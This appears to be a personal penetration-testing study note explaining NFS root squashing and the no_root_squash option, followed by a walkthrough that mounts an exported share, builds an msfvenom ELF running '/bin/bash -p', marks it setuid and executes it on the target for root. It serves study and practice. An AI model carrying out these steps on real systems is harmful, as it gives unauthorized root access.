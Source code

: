 
2024-06-16 13:06

Source: #privesc 

Tags: [[linux]]

##### Root Squashing

- Root Squashing is how NFS prevents an obvious privilege escalation. 
- If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group. 
- While this behavior is default, it can be disabled
##### no_root_squash

- no_root_squash is an NFS configuration option which turns root squashing off.
- When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

##### Example : 

**Adversary machine**

- view contents of `/etc/exports`
- find for shares that are configured with the no_root_squash option (in the example we have /tmp) meaning we can write files to it as the root user over NFS

**Local Machine**

check if tmp share is available to mount 
```
$ showmount -e <targetip>
Export list for <targetip>
/tmp *
```
Create a directory that will be used as a mount point for the NFS share
```
mkdir /tmp/nfs

then mount the nfs share 
mount -o rw,vers=2 <targetip>:/tmp /tmp/nfs
```
Generate a [[msfvenom]] executable which runs bash with -p option and save this to the nfs share 
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Note that i am doing this as root user so the file should also be owned by root on the nfs share 
```
make it executable - 
chmod +xs /tmp/nfs/shell.elf
```
##### Adversary machine

check `/tmp` directory for shell.elf and execute it




### References
